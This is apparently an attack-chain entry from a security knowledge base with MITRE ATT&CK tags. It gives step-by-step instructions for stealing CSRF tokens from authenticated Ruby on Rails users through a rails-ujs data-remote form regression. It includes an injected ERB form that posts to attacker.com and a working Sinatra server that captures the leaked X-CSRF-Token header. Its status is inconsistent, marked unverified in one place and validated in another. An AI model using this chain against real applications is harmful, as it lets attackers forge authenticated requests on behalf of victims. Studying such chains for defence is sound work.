

---
tags:
  - csrf
  - token-leak
  - rails
  - xhr
  - cors
type: attack_chain
tools:
  - '[[tools/Sinatra]]'
tactics:
  - '[[Credential Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-01-01T12:00:00Z'
procedures:
  - '[[procedures/Create-Malicious-Data-Remote-Form-in-Rails]]'
  - '[[procedures/Set-Up-External-Server-with-Sinatra-for-Token-Capture]]'
  - '[[procedures/Submit-Form-to-Leak-CSRF-Token]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Steal Web Session Cookie]]'
updated_at: '2025-12-14T17:27:03.512Z'
description: >-
  Attack chain exploiting a regression in Ruby on Rails where data-remote forms
  send X-CSRF-Token headers to external sites without origin validation,
  allowing token theft for forging authenticated requests.
skill_level: intermediate
impact_level: high
id: 260f85df-5f8d-4783-831f-1e177eab7f20
validated: true
mitre_tactics:
  - '[[Credential Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Steal Web Session Cookie]]'
---
# CSRF Token Leakage via Data-Remote Forms in Ruby on Rails

Multi-stage attack chain demonstrating how to exploit a vulnerability in Ruby on Rails' rails-ujs, where data-remote forms include the X-CSRF-Token header in XHR requests to external domains without origin checks. This regression of CVE-2015-1840 allows attackers to steal CSRF tokens from authenticated users, enabling forgery of requests to the target Rails application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Sinatra]]

### Target Environment

- Ruby on Rails application with data-remote forms enabled (rails-ujs)
- Authenticated user session in the Rails app
- Attacker-controlled domain for receiving requests

### Initial Access Requirements

- Access to modify or inject a Rails template/view (e.g., via XSS or template injection)
- Network access to host an external server
- No prior credentials needed beyond user authentication in the target app

## Detailed Attack Procedures

### Step 1: Create Malicious Form
procedure: [[procedures/Create-Malicious-Data-Remote-Form-in-Rails]]

**Objective**: Inject a data-remote form in the Rails application that submits to an external attacker-controlled endpoint via XHR, including the CSRF token.

**Instructions**: Modify a Rails view template to include the form using ERB syntax. Ensure the form has `remote: true` to trigger XHR submission.

```erb
<%= form_tag "http://attacker.com/capture", remote: true do %> 
  <button type="submit">Submit</button> 
<% end %>
```

**Expected Output**: The form renders in the browser, ready for submission.

**Success Indicators**:
- Form appears in the authenticated Rails session
- No errors in Rails logs during rendering

### Step 2: Set Up Receiver Server
procedure: [[procedures/Set-Up-External-Server-with-Sinatra-for-Token-Capture]]

**Objective**: Deploy an external server to handle CORS-enabled POST requests and log the incoming X-CSRF-Token header.

**Instructions**: Use Sinatra to create a simple app that responds to OPTIONS for CORS preflight and captures the token in POST requests.

```ruby
require 'sinatra'

options '/*' do
  headers['Access-Control-Allow-Origin'] = '*'
  headers['Access-Control-Allow-Methods'] = 'POST'
  headers['Access-Control-Allow-Headers'] = 'x-csrf-token'
  200
end

post '/*' do
  token = request.env['HTTP_X_CSRF_TOKEN']
  puts "Captured CSRF Token: #{token}"  # Log or store the token
  'foo'
end
```

Run the server on attacker.com.

**Expected Output**: Server listens on port 4567, ready to receive requests.

**Success Indicators**:
- Server starts without errors
- OPTIONS requests return CORS headers

### Step 3: Submit Form and Capture Token
procedure: [[procedures/Submit-Form-to-Leak-CSRF-Token]]

**Objective**: Trigger the form submission from an authenticated browser session to exfiltrate the CSRF token to the attacker's server.

**Instructions**: In the browser, interact with the injected form by clicking the submit button while authenticated in the Rails app.

**Expected Output**: XHR POST to http://attacker.com/capture includes the X-CSRF-Token header, logged on the server.

**Success Indicators**:
- Network tab shows XHR request to external domain with CSRF header
- Attacker server logs the token value

## Attack Chain Summary

### Key Achievements

1. Successful injection of a data-remote form targeting external endpoint
2. CORS-enabled server captures the leaked X-CSRF-Token
3. Token theft enables forging of POST requests to the Rails app, bypassing CSRF protections

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Steal Web Session Cookie]]

### MITRE ATT&CK Tactics

- [[Credential Access]]
- [[Collection]]

---

*Last updated: 2024-01-01T12:00:00Z*
